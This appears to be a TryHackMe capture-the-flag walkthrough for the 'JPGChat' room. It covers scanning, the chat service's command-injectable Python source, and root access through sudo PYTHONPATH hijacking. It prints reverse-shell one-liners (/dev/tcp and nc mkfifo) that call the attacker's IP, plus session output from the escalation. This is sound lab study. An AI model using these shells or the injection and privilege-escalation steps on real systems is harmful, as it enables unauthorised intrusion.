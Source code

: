 ```yaml
---
title: Walkthrough - JPGChat
published: true
---
```


Tags: Python3, OS, Chatting, Report.
Description: Exploiting poorly made custom chatting service written in a certain language...
Difficulty: Easy
URL: [https://tryhackme.com/room/jpgchat](https://tryhackme.com/room/jpgchat)

* * *

## Notes

- `sudo nmap -sC -sV -sT --script vuln -O -p22,3000 10.10.237.128`

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
3000/tcp open  tcpwrapped
```

- `telnet 10.10.237.128 3000` lets us know we can find the service sourcecode at the github.
- [https://github.com/Mozzie-jpg/JPChat](https://github.com/Mozzie-jpg/JPChat)

```python
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```

Using [REPORT] and then using `;` to end the function followed by a bash revshell `sh -i >& /dev/tcp/10.2.127.225/6666 0>&1` gets us our first shell. This shell isnt stable and doesnt seem to give us output but using `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.127.225 6667 >/tmp/f` gets us a more stable shell.

* * * 

## What is the content of user.txt?

![0xskar](/assets/jpgchat01.png)

* * * 

## What is the content of root.txt?

- `sudo -l` guartentee 

```
User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

So we only have read, access. Time to check out the source.

```
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

I then followed https://github.com/xnomas/TryHackMe-Writeups/tree/main/JPGchat because i dont know python.

```
(local) pwncat$ upload compare.py
./compare.py ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 375/375 bytes • ? • 0:00:00
[17:50:08] uploaded 375.00B in 1.96 seconds                                                                                    upload.py:76
(local) pwncat$                                                                                                                            
(remote) wes@ubuntu-xenial:/dev/shm$ ls -las
total 16
 0 drwxrwxrwt  2 root root    80 Aug 23 00:40 .
 0 drwxr-xr-x 16 root root  3560 Aug 23 00:09 ..
 4 -rw-r--r--  1 wes  wes    375 Aug 23 00:50 compare.py
12 -rw-------  1 wes  wes  12288 Aug 23 00:20 .compare.py.swp
(remote) wes@ubuntu-xenial:/dev/shm$ sudo PYTHONPATH=/dev/shm/ /usr/bin/python3 /opt/development/test_module.py
root@ubuntu-xenial:/dev/shm# cd /root
root@ubuntu-xenial:/root# ls -las
total 24
4 drwx------  3 root root 4096 Jan 15  2021 .
4 drwxr-xr-x 25 root root 4096 Aug 23 00:09 ..
4 -rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
4 -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4 -rw-r--r--  1 root root  305 Jan 15  2021 root.txt
4 drwx------  2 root root 4096 Jan 15  2021 .ssh
root@ubuntu-xenial:/root# cat root.txt
[REDACTED]

Also huge shoutout to Westar for the OSINT idea
i wouldn't have used it if it wasnt for him.
and also thank you to Wes and Optional for all the help while developing

You can find some of their work here:
https://github.com/WesVleuten
https://github.com/optionalCTF
root@ubuntu-xenial:/root# 
[18:24:02] warning: 10.10.225.187:58648: connection reset   
```

* * * 

